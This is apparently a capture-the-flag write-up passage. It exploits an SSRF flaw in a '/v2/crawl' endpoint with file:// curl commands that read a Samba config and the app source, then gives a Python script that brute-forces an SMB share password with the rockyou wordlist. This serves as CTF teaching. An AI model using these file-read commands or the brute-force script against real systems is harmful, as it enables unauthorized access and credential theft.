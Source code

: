 We now know that SMB is involved and that there is an endpoint called `/v2/crawl`.
We can use this endpoint to visit web pages, but it has an SSRF vulnerability. This means
that we can fetch files from the server, or visit internal web pages.

Using this vulnerability we fetched the SMB config and the app.py source code:

`curl -D- http://138.68.93.187:6960/v2/crawl?adshua=file:///etc/samba/smb.conf --output smb.conf`

`curl -D- 'http://138.68.93.187:6960/v2/crawl?adshua=file:///home/ctfuser/app.py' --output app.py`

There is an interesting entry in SMB config
```ini
[josh]
    path = /samba/josh
    browseable = yes
    read only = yes
    guest ok = yes
    force create mode = 0660
    force directory mode = 2770
    valid users = josh @sadmin
```

`josh` is an SMB share, and we can authenticate to this share as `josh`.
We also see a new API endpoint for SMB

```python
@app.route("/v2/smb", methods=["GET"])
def smb():
  #this might ROCK YOUr world!
  if request.args.get('onlyifyouknowthesourcecode'):
    director = urllib.request.build_opener(SMBHandler)
    fh = director.open(request.args.get('onlyifyouknowthesourcecode'))
    buf = fh.read()
    fh.close()
    return buf
```

There is a hint refering to `rockyou.txt` in the source code. So now we just create a script to bruteforce josh's password using this wordlist.

```python
#!/usr/bin/env python3
import requests
import sys

url = "http://138.68.93.187:6960/v2/smb?onlyifyouknowthesourcecode=smb://josh:{password}@localhost/josh/flag.txt"

with open(sys.argv[1]) as wlist:
    for pw in wlist:
        pw = pw.rstrip()

        r = requests.get(url.format(password=pw))

        if "not authenticated" not in r.text:
            if "filedescriptor out of range" not in r.text:
                print(r.text)
            print(f"PASS: {pw}")
```
